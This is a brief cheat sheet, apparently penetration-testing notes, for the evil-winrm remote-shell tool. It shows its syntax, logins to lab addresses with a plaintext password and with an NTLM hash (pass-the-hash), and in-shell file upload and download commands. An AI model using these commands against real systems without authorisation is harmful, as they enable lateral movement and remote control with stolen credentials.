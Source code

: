 #lateral #pth 

```bash
evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
```

```bash
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

```bash
 evil-winrm -i 192.168.188.222 -u Administrator -H "8f518eb35353d7a83d27e7fe457664e5" 
```

```winrm
download <full path in windows> <full path in linux>
```

```winrm
upload <full path in linux> <full path in windows>
```
